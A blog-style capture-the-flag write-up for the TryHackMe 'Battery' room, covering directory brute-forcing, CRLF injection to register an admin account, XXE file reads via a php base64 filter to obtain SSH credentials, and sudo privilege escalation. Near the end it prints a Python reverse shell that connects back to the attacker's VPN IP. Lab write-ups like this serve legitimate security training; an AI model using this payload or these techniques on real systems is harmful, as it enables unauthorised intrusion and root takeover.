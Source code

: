 ```yaml
---
layout: post
title: Tryhackme - Battery
date: 2021-02-21 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,xxe,reverse-shell]
---
```


---
Battery is a medium level room in Tryhackme. The initial foothold is obtained by getting the ```ssh credentials``` from a php page after using the ```php base64 bypass```. But the root flag is fairly easy to get. Unlike usual, the final objective is to get two user flags and the root flag.

<br>
![cover_image](/assets/img/tryhackme/battery/1.png)

**Author** | cr3t3ht3
**Description** | CTF designed by CTF lover for CTF lovers


Deploy the VM and let's Hack the machine.

## <ins>Enumeration</ins>
---
Let's start enumerating with the usual nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/battery/nmap_scan.png)
<br>
The nmap results show that the ports ```22/ssh``` and ```80/http``` port/service is open. Visiting the ```http``` service, I was greeted with this page.
<br>
![home_page](/assets/img/tryhackme/battery/3.png)
<br>
Use ```gobuster``` to bruteforce the hidden directories.
<br>
<pre>gobuster dir -u http://machine-ip/ -w /usr/share/dirb/wordlists/common.txt -x php,html,js,txt</pre>
<br>
![gobuster_results](/assets/img/tryhackme/battery/2.png)
<br>
Firstly, I checked the most interesting page ```admin.php``` and found the login page. I tried some common credentials and sql injection payloads, but had no luck with it. So, I created a new account in the ```admin.php``` page and found some tabs in the top of the page.
<br>
![page_tabs](/assets/img/tryhackme/battery/5.png)
<br>
I was able to take a look at every tab except the ```My Account``` and the ```command``` tabs which was locked out only for admins to use.
<br>
![admins_only](/assets/img/tryhackme/battery/8.png)
<br>
After checking the other pages from the ```gobuster``` results, I was left with ```/report``` . After moving into the ```/report``` page it prompted for download.

I checked the file type and found that it is an ```ELF``` file.
<br>
![file_type](/assets/img/tryhackme/battery/6.png)
<br>
I used ```strings``` to get the contents of the file. Alternatively, you can also use ```radare2``` or ```Ghidra```.
<br>
![strings_report](/assets/img/tryhackme/battery/7.png)
<br>
The first thing that caught my eye after using ```strings``` is the username ```admin@bank.a```. I tried taking a deeper look into the ```ELF``` file but it was a wasted effort.


## <ins>Registering Admin account</ins>
---
Then I tried creating a new account using the username ```admin@bank.a``` but an alert box popped up.
<br>
![admin_register](/assets/img/tryhackme/battery/9.png)
<br>
This is the part where it gets a little interesting. I fired up ```Burpsuite``` and played around with the parameters. Finally, I used ```CRLF vunlnerability``` to register the account. 

For those who don't know about ```CRLF vulnerability``` here is the definition: A ```Carriage Return Line Feed``` Injection vulnerability occurs when an application does not sanitize user input correctly and allows for the insertion of carriage returns and line feeds.

To do this, capture the request using ```Burp Proxy``` and hit ```Enter``` (a new line) after the username value.
<br>
![admin_register1](/assets/img/tryhackme/battery/10.png)
<br>
![registered_successfully](/assets/img/tryhackme/battery/11.png)
<br>
And boom!! Now we can login as admin.

## <ins>Exploiting XXE</ins>
---
Firstly, I checked the tabs that are only allowed for admins i.e the ```My account``` tab and found that it uses ```XML``` to reflect the ```account number``` parameter.
<br>
![xml_request](/assets/img/tryhackme/battery/12.png)
<br>
I grabbed the payload for the ```XXE - XML External Entity``` vulnerability payload from ```PayloadsAllthethings``` and tested for it,...which worked perfectly.
<br>
![xxe_burp](/assets/img/tryhackme/battery/13.png)
<br>
Then, I tried to pull out the ```/etc/passwd``` file using ```XXE``` but it didn't return anything. So, I tried it with the ```php base64 filter bypass```.
<br>
![xml_1](/assets/img/tryhackme/battery/23.png)
<br>
![base64_passwd](/assets/img/tryhackme/battery/14.png)
<br>
Decoding the base64 string we can get the two usernames from the /etc/passwd file. You can use ```Cyberchef``` or ```echo "base64-contents" | base64 -d```.
<br>
![base64_decode](/assets/img/tryhackme/battery/15.png)
<br>

## <ins>Getting SSH password</ins>
---
Doing the same thing for the ```acc.php``` page...
<br>
![xml_acc](/assets/img/tryhackme/battery/24.png)
<br>
![account_page](/assets/img/tryhackme/battery/16.png)
<br>
and decoding it, we can get the password for the user ```cyber```.
<br>
![cyber_pass](/assets/img/tryhackme/battery/17.png)
<br>

## <ins>Getting user flag 1</ins>
---
Log in using the credentials we just found into ```SSH``` and you can get the ```user flag 1``` in the home directory of the user ```cyber```.
<br>
![ssh_login](/assets/img/tryhackme/battery/18.png)
<br>

## <ins>Getting user flag 2</ins>
---
We can get the ```user flag 2``` in the home directory of the user ```yash```.

## <ins>Getting root</ins>
---
After doing some common priviledge escalation enumeration I found that the file ```/home/cyber/run.py``` can be run as root.
<br>
![sudo_l](/assets/img/tryhackme/battery/19.png)
<br>
Taking a closer look at the file, it is owned by ```root```, so we don't have enough permissions to edit it. But since it is in the home directory of the user ```cyber``` we can create a new file with the same name and run it as root.
<br>
![closer_look](/assets/img/tryhackme/battery/20.png)
<br>
<pre>
mv run.py tmp.py
touch run.py
nano run.py
</pre>
<br>
And enter the reverse shell python3 payload in the file. Remeber to edit the ```ip``` and the ```port``` values.
<br>
<pre>
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("your-vpn-ip",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")'
</pre>
<br>
![python3_rev](/assets/img/tryhackme/battery/21.png)
<br>

Remeber to open a netcat listener in your local machine. To get the reverse shell run...
<br>
<pre>sudo /usr/bin/python3 /home/cyber/run.py</pre>
<br>
![root_shell](/assets/img/tryhackme/battery/22.png)
<br>
The root flag will be waiting for you in the ```/root``` directory.


Stay tuned for more...

That's it folks. Happy hacking!!!
